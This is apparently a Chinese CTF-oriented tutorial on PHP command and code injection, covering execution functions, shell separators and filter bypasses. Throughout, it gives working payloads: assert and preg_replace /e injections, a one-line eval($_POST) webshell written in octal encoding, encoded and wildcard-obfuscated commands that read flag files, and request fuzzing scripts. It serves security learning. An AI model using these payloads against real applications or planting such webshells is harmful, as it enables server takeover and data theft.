




## 1、介绍

Command Injection，即命令注入，是指通过提交恶意构造的参数破坏命令语句结构，从而达到执行恶意命令的目的。PHP命令注入攻击漏洞是PHP应用程序中常见的脚本漏洞之一。

当应用需要调用一些外部程序去处理内容的情况下，就会用到一些执行系统命令的函数。如PHP中的system，exec，shell_exec等，当用户可以控制命令执行函数中的参数时，将可注入恶意系统命令到正常命令中，造成命令执行攻击。

## 2、漏洞危害

```shell
继承Web服务器程序的权限，去执行系统命令
继承Web服务器程序的权限，读写文件
反弹shell
控制整个网站
甚至控制整个服务器
```

## 3、PHP命令执行函数

### 3.1. system() :

**system — 执行外部程序(命令行)**，并且显示输出这个函数会将**结果直接进行输出** ，命令成功后**返回输出的最后一行**，失败返回FALSE

**注意：是直接输出，区别于返回值，因为这个，我一般不用它**

### 3.2. shell_exec():

**shell_exec — 通过 shell 环境执行命令** ( 这就意味着这个方法只能在 linux 或 mac os的shell环境中运行 )，**并且将完整的输出以字符串的方式返回**。**如果执行过程中发生错误或者进程不产生输出**，则返回 NULL。

### 3.3. exec():

**exec — 执行一个外部程序返回命令执行结果的最后一行内容**。**不显示回显**。如果想要获取命令的输出内容， 请确保使用 output 参数，或者利用这个函数来构建反弹shell。

```powershell
exec()函数基本用法：
exec ( string $command [, array &$output [, int &$return_var ]] )；
$command：表示要执行的命令。
$output:如果提供了 output 参数， 那么会用命令执行的输出填充此数组， 每行输出填充数组中的一个元素。
```

### 3.4. passthru():

**passthru — 执行外部程序并且显示原始输出。**

### 3.5. 反引号

**eg.   `命令`**

反引号可以用来在PHP代码中直接执行系统命令，但是想要回显的话还需要一个 echo：

**如果题目代码中没有 echo，我们需要配合curl并使用VPS进行外带**。

### 3.6. 花括号

**eg.   {command,}**

### 3.7. echo命令

```powershell
echo ls|sh
echo cat /flag|bash
```

## 4、PHP代码执行函数

代码执行漏洞与命令执行漏洞具有相通性。利用系统函数实现命令执行，**在php下，允许命令执行的函数有：eval()、assert()、preg_replace()、** **array_map()、call_user_func()、call_user_func_array()，array_filter()，usort()，uasort()** 、 **文件操作函数、动态函数($a($b))、****${}等等**。如果页面中存在这些函数并且对于用户的输入没有做严格的过滤，那么就可能造成远程命令执行漏洞。

### **4.1. eval()（可执行多行代码）**

eval() 函数把**字符串**按照 PHP 代码来计算。(php4.0+)

**该字符串必须是合法的 PHP 代码，且必须以分号结尾。**

**实例1：**

```php
<?php
  $string = "beautiful";
$time = "winter";

$str = 'This is a $string $time morning!';
echo $str. PHP_EOL;

eval("\$str = \"$str\";");
echo $str;
?>
//输出
This is a $string $time morning!
This is a beautiful winter morning! 
```

实例2：拼接参数

```php
<?php
$str =  '<?php echo "test"; ?>';

eval('?>'.$str.'<?php;'); // outputs test
eval('?>'.$str.'<?'); // outputs test
eval('?>'.$str.'<?php');// throws syntax error - unexpected $end
?>
```

**注意：**

```php
1.eval函数的参数的字符串末尾一定要有分号，在最后还要另加一个分号（这个分号是php限制）。
2.注意单引号，双引号和反斜杠的运用。如果参数中带有变量时，并且变量有赋值操作的话，变量前的$符号前一定要有\来转义，如果没有赋值操作可以不需要。
```

### **4.2. assert()（单行执行）**

编写代码时，我们总是会做出一些假设，断言就是用于在代码中捕捉这些假设，可以将断言看作是异常处理的一种高级形式。程序员断言在程序中的某个特定点该的表达式值为真(为真才能继续执行)。如果该表达式为假，就**中断操作.**

```php
assert ( mixed $assertion [, Throwable $exception ] )
```

漏洞：如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。跟eval（)，和eval（)函数区别在于参数不需要分号结尾

```php
eval（" phpinfo()"); <错误>
eval（" phpinfo();"); <正确>
assert(" phpinfo()"); <正确>
```

例题：（攻防世界-mfw(.git泄露)）

知道了assert断言的代码执行漏洞后，我们就来构造payload，这里利用了闭合的思想：分析代码可知，若想得到flag，则需要给page传入的须满足

```php
$file = "templates/" . $page . ".php";
assert("strpos('$file', '..') === false")
尝试
?page=abc') or system("cat templates/flag.php");//
即
$file = "templates/abc') or system("cat templates/flag.php");//.php";
即
assert("strpos('templates/abc') or system("cat templates/flag.php");//.php', '..') 
得到
（这个地方我本来在主页提交的，但是怎么都显示不出flag，ctrl+u查看源码就能看见了，或直接在源码也提交）
?page=abc') or system(phpinfo());//
就可查看phpinfo信息。
```

### 4.3. **preg_replace()**  (php<=v5.5  preg_replace \e 模式如果 replacement中是双引号的，那有此漏洞  )

**preg_replace函数原型：**https://www.php.net/manual/zh/function.preg-replace.php  ---执行一个正则表达式的搜索和替换

```php
mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])
mixed preg_replace (正则表达式, 替换成, 字符串, 最大替换次数【默认-1，无数次】, 替换次数)
```

**搜索subject中匹配pattern的部分，以replacement进行替换。** 

先来了解一些这个函数相关的东西：

#### 1、replacement部分的修饰符：

```php
/g 表示该表达式将用来在输入字符串中查找所有可能的匹配，返回的结果可以是多个。如果不加/g最多只会匹配一个
/i 表示匹配的时候不区分大小写，这个跟其它语言的正则用法相同
/m 表示多行匹配。什么是多行匹配呢？就是匹配换行符两端的潜在匹配。影响正则中的^$符号
/s 与/m相对，单行模式匹配。
/e 可执行模式，此为PHP专有参数，例如preg_replace函数。
/x 忽略空白模式。
```

#### 2、 可变变量  （https://www.php.net/manual/zh/language.variables.variable.php）

在php中，**双引号里面如果包含有变量，php解释器会将其替换为变量解释后的结果**；**而单引号中的变量不会被处理。**
注意：

（1）**双引号中的函数不会被执行和替换。**

（2）要将可变变量用于数组，必须解决一个模棱两可的问题。这就是当写下 **$$a[1]** 时，解析器需要知道是想要 **$a[1]** 作为一个变量呢，还是想要 $$a 作为一个变量并取出该变量中索引为 [1] 的值。解决此问题的语法是，对**第一种情况用 ${$a[1]}，对第二种情况用 ${$a}[1]。 也即用花括弧来做具体的界限分割。**

#### 3、 反向引用

 对一个正则表达式模式或部分模式 **两边添加圆括号** 将导致**相关 匹配存储到一个临时缓冲区** 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 '\n' 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。  

如(dqs)(pps)\1\2，表示匹配字符串dqsppsdqspps。

例如如下的实例：**([BJDCTF2020]ZJCTF，不过如此)**



```php
preg_replace('/(' . $regex . ')/ei','strtolower("\\1")',$value）
```

这里就将$re的正则模式进行了圆括号包裹，因此匹配到的内容会存储到临时缓冲区，供后面的\1访问。

这里的 **\1** 实际上指定的是第一个子匹配项，我们拿 **ripstech** 官方给的 **payload** 进行分析，方便大家理解。官方 **payload** 为： **/?.\*={${phpinfo()}}** ，即 **GET** 方式传入的参数名为 **/?.\*** ，值为 **{${phpinfo()}}** 。

原先的语句： preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value); 

变成了语句： preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}}); 

意思是忽略大小写，匹配任意字符零次或多次（**匹配任意内容**），以strtolower("\\1")去替换，而这里因为前面的圆括号反向引用，所以内容就变成了：strtolower("{**${phpinfo()}**}")   而这里的{**${phpinfo()}**}在双引号里面，作为变量，因此会被解析执行，也就是phpinfo(),执行成功后返回1，就成了"{${1}}"

所以，这里的'strtolower("{${phpinfo()}}")'==》strtolower("{${1}}") ==》 strtolower("{null}") ==》 '' 空字符串，在这个过程中我们的代码已经注入执行成功了。

#### 有坑点

如果你如上去复现，你会发现复现不会成功

传payload进去，http://127.0.0.1/test%20(2).php**/?.\*={${phpinfo()}}**



并没有输出我们预期的phpinfo页面，那么问题在哪里？不妨把传入的值dump出来一下：

```php
echo (var_dump($_GET));
```



注意到 传上去的 **.\*** 变成了 **_\*， 这是因为php的安全机制，** 在PHP中，对于传入的非法的 **$_GET** 数组参数名，会将其转换成下划线，这就导致我们正则匹配失效。我们可以 **fuzz** 一下PHP会将哪些符号替换成下划线，发现有：

**非法字符不为首位**

```python
import requests

for i in range(0,256):
    url = 'http://127.0.0.1/test%20(2).php/?a*'+chr(i)+'*b=1'
    re = requests.get(url)
    if 'a*_*b' in re.text:
        print(re.text)
        print (str(i)+':'+chr(i))


发现不在首位时有如下字符：
32: 
43:+
46:.
91:[
95:_
```


**非法字符在首位时**  **只有点号（.）会被替换**：

```python
import requests

for i in range(0,256):
    url = 'http://127.0.0.1/test%20(2).php/?'+chr(i)+'*a=1'
    re = requests.get(url)
    if '_*a' in re.text:
        print(re.text)
        print (str(i)+':'+chr(i))
```



因此这就给了我们思路，只需要**构造来避开这些被Ban的字符来注入**就好：比如：

```python
?\S*={${phpinfo()}}//l1nk3r大佬的payload   \S* 表示贪婪匹配任意非空白字符

?\D*={${phpinfo()}}//我也尝试构造一个payload \D* 表示贪婪匹配任意非数字字符（我们的payload中不含数字）
当然还可以继续构造······
····
题目拿flag的姿势：
1. 利用源码给的getFlag函数
?\S*={${getFlag()}}&cmd=show_source('/flag');
2. 利用蚁剑getshell
?\S*={${getFlag()}}&cmd=eval($_POST[pass]);
或
?\S*={${eval($_POST[pass])}}
3. post传参
\S*=${$_POST[pass]}

post:
pass=system('cat /flag');
```

**附注：**

```php
var_dump(phpinfo()); // 结果：布尔 true
var_dump(strtolower(phpinfo()));// 结果：字符串 '1'
var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));// 结果：字符串'11'

var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));// 结果：空字符串''
var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));// 结果：空字符串''
这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 又相当于 strtolower("{null}") 又相当于 '' 空字符串
```

### **4.4.** call_user_func() 函数

```php
call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] ) 
把第一个参数作为回调函数调用
第一个参数 callback 是被调用的函数的函数名，其余参数是被调用函数的参数。
call_user_func() 函数不是指一个函数，而是一类函数：调用函数。
这一类调用函数经常用在框架中动态调用函数，一般都是较大的程序才会使用到这类函数。 
这里我们就拿call_user_func()函数作为例子讲解安全隐患出在哪里
```

实例如下：

```php
<?php
    call_user_func($_GET['id'],$_GET['data']);
?>
变量 $_GET[‘id’] 获取 get 方式传递的变量名为 id 的变量值作为被调用函数的函数名，
而变量 $_GET[‘data’] 则获取 get 方式传递的变量名为 data 的变量值作为该调用函数的参数
```

 我们构造我们的payload为：

```php
id=assert&data=phpinfo()
```

### 4.4. 双引号

**注意： ${}执行代码（在 双引号 中倘若有${}出现，那么{}内的内容将被当做php代码块来执行。）**

**方法："${php代码}"**

eg. "${phpinfo()}";

## 5、 命令拼接符

```powershell
command1 ; command2 : 先执行command1后执行comnand2
command1 & command2 : 先执行comnand2后执行command1 前对后无影响
command1 && command2 : 执行command1成功后，执行comnand2，否则不执行2
command1 | command2 : 先执行command1，将输出作为输入去执行command1 
command1 || command2 : command1执行失败， 再执行command2(若command1执行成功，就不再执行command2)
```

在RCE中就是靠这些连接符来构造并执行恶意命令的。

## 6、命令执行的一些绕过技巧

#### 绕过str_replace()函数

####  双写绕过空格被过滤时用特殊字符代替

空格可以用以下字符串代替：

```powershell
< 、<>、%09(tab键)、%20、$IFS$9、$IFS$1、${IFS}、$IFS等，还可以用{} 比如 {cat,flag}

$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串。
```

#### 用编码来绕过关键字过滤

这种绕过针对的是系统过滤敏感字符的时候，比如他过滤了cat命令、flag字符，那么就可以用下面方式将cat等先进行编码后再进行解码运行。

##### URL编码绕过

关于**$_SERVER['QUERY_STRING']**，他验证的时候是不会进行url解码的，但是在GET的时候则会进行url解码，所以我们只需要将关 键词进行url编码就能绕过。

##### Base64编码绕过

linux base64讲解：

```powershell
用法：base64 [选项]… [文件]  使用 Base64 编码/解码文件或标准输入/输出。
-d, --decode 解码数据
-w, --wrap=字符数 在指定的字符数后自动换行(默认为76)，0 为禁用自动换行实例：
[root@localhost ~]# echo test|base64             加密
dGVzdAo=
[root@localhost ~]# echo dGVzdAo= |base64 -d     解密 
test
```

绕过利用：**（"引号不是必须）**

```powershell
echo MTIzCg==|base64 -d               其将会打印123         //MTIzCg==是123的base64编码
echo "Y2F0IC9mbGFn"|base64 -d|bash    将执行了cat /flag        //Y2F0IC9mbGFn是cat /flag的base64编码
echo "bHM="|base64 -d|sh              将执行lsxxxxxxxxxx Hex编码绕过
```

道理与上面相同

##### 利用linux xxd命令。

xxd 命令可以将指定文件或标准输入以十六进制转储，也可以把十六进制转储转换成原来的二进制形式。

-r参数：逆向转换。将16进制字符串表示转为实际的数

echo "636174202f666c6167"|xxd -r -p|bash     将执行cat /flag

##### 也可以用 $() 的形式直接内联执行：

```shell
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")         执行cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|$0       执行cat /flag
```

##### Oct编码绕过：

**$(****printf "\154\163"****)**       执行ls

可以通过这样来写webshell，内容为

```shell
// <?php @eval($_POST['c']);?>: ${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php   
// 需要有写权限
```

$() 可以像反引号一样用于内联执行，后面会说到，这里注意一下。用偶读拼接绕过关键字过滤

为了绕过敏感字符（或黑名单），除了用以上说的编码绕过外，还可以用命令偶读拼接绕过。

```php
<?php
  if( isset( $_POST[ 'Submit' ]  ) ) {
  // Get input
  $target = $_REQUEST[ 'ip' ];
// Determine OS and execute the ping command.
if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
  // Windows
  $cmd = shell_exec( 'ping  ' . $target );
}
else {
  // *nix
  $cmd = shell_exec( 'ping  -c 4 ' . $target );
}
// Feedback for the end user
echo "<pre>{$cmd}</pre>";
}
?>
```

构造payload，来进行偶读拼接绕过：

```powershell
?ip=127.0.0.1;a=l;b=s;$a$b
?ip=127.0.0.1;a=fl;b=ag;cat /$a$b;
```

原理如下：即在Linux中，命令是可以拼接执行的。

##### 用 %0a 绕过命令连接符

当题目代码将一下字符全部过滤后：

**[ $    {    }    `    ;    &    |    (    )    \     '    ~    !    @    #    %    ^    \*    [    ]    \\    :    -    _ ]**

我们可以用 %0a 进行绕过，%0a 代表换行的意思，通过 %0a 能够注入新的一条命令进行执行：

```shell
?ip=127.0.0.1%0als
?ip=127.0.0.1%0acat /flag
```

##### 花括号{command,}的别样用法

在Linux bash中还可以使用花括号{OS_COMMAND,ARGUMENT}来执行系统命令，{ls,}

**注意：别忘了{,}里面的逗号，如{ls}这个不能执行，必须要{ls,}这样。**

##### 用内联执行绕过关键字过滤

命令替代，大部分Unix shell以及编程语言如Perl、PHP以及Ruby等都以成对的反引号作指令替代，意思是以某一个指令的输出结果作为另一个指令的输入项。linux下反引号``里面包含的就是需要执行的系统命令，而反引号里面的系统命令会先执行，成功执行后将结果传递给调用它的命令(就是将反引号内命令的输出作为输入执行)，类似于|管道

###### 反引号``

例如：

```shell
echo "a`pwd`"
```

还有

```shell
?ip=127.0.0.1;cat$IFS$9`ls`
```

###### 还有$(command)

例如：

```shell
echo "abcd $(pwd)"
```

##### 用引号绕过关键字过滤

实例代码：

```php
<?php
  error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/(;|'| |>|&| |\\$|python|sh|nc|tac|rev|more|tailf|index|php|head|nl|tail|less|cat|ruby|perl|bash|rm|cp|mv|\{)/i", $ip)){
    die("<script language='javascript' type='text/javascript'>
alert('no no no!')
window.location.href='index.php';</script>");
  }else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("<script language='javascript' type='text/javascript'>
alert('no flag!')
window.location.href='index.php';</script>");
  }
  $a = shell_exec("ping -c 4 ".$ip);
}
  ?>
```

代码中绕过了cat、more、index、php等关键字，我们可以用引号绕过这些过滤，实例如下：

```powershell
ca""t  =>  cat
mo""re  =>  more  
in""dex  =>  index
ph""p  =>  php
```

##### 用通配符绕过关键字过滤

**原理就是利用”?“在正则表达式和shell命令行中的区别绕过关键字过滤。**

还是上面那个示例代码：

```php
<?php
  error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/(;|'| |>|&| |\\$|python|sh|nc|tac|rev|more|tailf|index|php|head|nl|tail|less|cat|ruby|perl|bash|rm|cp|mv|\{)/i", $ip)){
    die("<script language='javascript' type='text/javascript'>
alert('no no no!')
window.location.href='index.php';</script>");
  }else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("<script language='javascript' type='text/javascript'>
alert('no flag!')
window.location.href='index.php';</script>");
  }
  $a = shell_exec("ping -c 4 ".$ip);
}
  ?>
```

可以看到，题目使用 preg_match("/.*f.*l.*a.*g.*/", $ip) 过滤了flag，那么我们读取flag时就可以用以下方法绕过：

假设flag在/flag中:

```powershell
/?url=127.0.0.1|ca""t%09/fla?
/?url=127.0.0.1|ca""t%09/fla*

假设flag在/flag.txt中:
/?url=127.0.0.1|ca""t%09/fla????
/?url=127.0.0.1|ca""t%09/fla*

假设flag在/flags/flag.txt中:
/?url=127.0.0.1|ca""t%09/fla??/fla????
/?url=127.0.0.1|ca""t%09/fla*/fla*
```

我们可以用以上格式的payload读取到flag。

下面说一下原理：

```php
在正则表达式中，?这样的通配符与其它字符一起组合成表达式，匹配前面的字符或表达式零次或一次。
在shell命令行中，?这样的通配符与其它字符一起组合成表达式，匹配任意一个字符。
```

同理，我们可以知道 * 通配符：

```php
在正则表达式中，*这样的通配符与其它字符一起组合成表达式，匹配前面的字符或表达式零次或多次。
在shell命令行中，* 这样的通配符与其它字符一起组合成表达式，匹配任意长度的字符串。这个字符串的长度可以是0，可以是1，可以是任意数字。
```

##### 用反斜杠绕过关键字过滤

还是上面那个示例代码：

```php
<?php
  error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/(;|'| |>|&| |\\$|python|sh|nc|tac|rev|more|tailf|index|php|head|nl|tail|less|cat|ruby|perl|bash|rm|cp|mv|\{)/i", $ip)){
    die("<script language='javascript' type='text/javascript'>
alert('no no no!')
window.location.href='index.php';</script>");
  }else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("<script language='javascript' type='text/javascript'>
alert('no flag!')
window.location.href='index.php';</script>");
  }
  $a = shell_exec("ping -c 4 ".$ip);
}
  ?>
```

我们还可以利用反斜杠绕过关键字过滤，如下：

```shell
ca\t  =>  cat
mo\re  =>  more  
in\dex  =>  index
ph\p  =>  php
n\l  =>  nl
```

##### 用[]匹配绕过关键字过滤

同样还是上面那个示例代码，我们可以用[]匹配绕过关键字过滤：

```shell
c[a]t  =>  cat
mo[r]e  =>  more  
in[d]ex  =>  index
p[h]p  =>  php
```

